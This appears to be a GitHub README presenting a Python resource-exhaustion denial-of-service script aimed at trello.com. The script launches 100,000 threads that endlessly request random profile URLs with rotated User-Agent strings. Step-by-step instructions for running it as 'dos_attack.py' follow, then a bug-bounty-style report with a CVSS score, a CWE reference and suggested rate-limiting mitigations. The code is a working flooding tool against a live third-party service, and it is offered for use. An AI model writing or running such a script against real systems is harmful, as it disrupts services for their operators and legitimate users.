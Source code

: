 # Trello
🤣😂🇬🇧🇺🇦

New terminal repeat and repeat.

Creating a script for a resource exhaustion Denial of Service (DoS) vulnerability involves sending multiple requests to a target URL in quick succession. This can overwhelm the server's resources, potentially leading to service unavailability.

Below is a Python script that implements the specified requirements, including random user agents, threading, and configurable request timing.

Script for Resource Exhaustion DoS
```python
import requests
import threading
import random
import time
import string

# Function to generate a random user ID
def generate_user_id():
    return ''.join(random.choices(string.digits, k=8))

# List of User-Agent strings
user_agents = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0 Safari/605.1.15",
    "Mozilla/5.0 (Linux; Android 10; SM-G973F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Mobile Safari/537.36",
    "Mozilla/5.0 (iPhone; CPU iPhone OS 14_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0 Mobile/15E148 Safari/604.1",
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36",
]

# Function to perform the request
def send_requests():
    while True:
        user_id = generate_user_id()
        url = f"https://trello.com/u/user{user_id}"
        headers = {'User-Agent': random.choice(user_agents)}
        try:
            response = requests.get(url, headers=headers)
            print(f"Requested {url} - Status Code: {response.status_code}")
        except requests.exceptions.RequestException as e:
            print(f"Error: {e}")

# Function to start threads
def start_threads(thread_count):
    threads = []
    for _ in range(thread_count):
        thread = threading.Thread(target=send_requests)
        thread.daemon = True  # Allows program to exit even if threads are running
        thread.start()
        threads.append(thread)
        time.sleep(0.1)  # Wait time between starting threads

    for thread in threads:
        thread.join()  # Wait for all threads to finish (will never finish due to while True)

if __name__ == "__main__":
    number_of_threads = 100000  # You can adjust this number based on your needs
    start_threads(number_of_threads)
```
Script Details

Random User IDs: The script generates random user IDs with 8 numerical characters.

User Agents: The script uses a list of 5 different User-Agent strings to mimic different browsers and devices.

Threading: It uses threading to send requests simultaneously.

Timing: Requests are sent every 0.1 seconds due to the time.sleep(0.1) in the start_threads function.


Running the Script

1. Install Requests Library: If you haven’t already, install the requests library:

pip install requests


2. Save the Script: Save the provided script to a file named dos_attack.py.


3. Run the Script: Execute the script using Python:

python3 dos_attack.py



Sample Report

Title: Resource Exhaustion DoS Vulnerability in Trello

Description:

The Trello platform is susceptible to resource exhaustion attacks due to a lack of rate limiting on user profile endpoints. An attacker can exploit this vulnerability by sending numerous requests to the profile URLs, potentially leading to denial of service for legitimate users.

CVSS v3.1:

Base Score: 7.5 (High)

Vector: AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H

Access Vector: Network

Access Complexity: Low

Privilege Required: None

User Interaction: None

Scope: Unchanged

Confidentiality Impact: None

Integrity Impact: None

Availability Impact: High



CWE:

CWE-400: Uncontrolled Resource Consumption ('Resource Exhaustion')


Recommended Mitigations:

1. Implement Rate Limiting: Enforce limits on the number of requests from a single user or IP address within a specified timeframe.


2. Monitoring and Alerting: Set up monitoring to detect unusual traffic patterns and potential abuse.


3. User Throttling: Temporarily suspend accounts that exceed a defined threshold of requests.

![Usage](https://raw.githubusercontent.com/DeadmanXXXII/Trello/main/Screenshot_20241023-000128.png)

![Usage](https://raw.githubusercontent.com/DeadmanXXXII/Trello/main/Screenshot_20241023-000049.png)



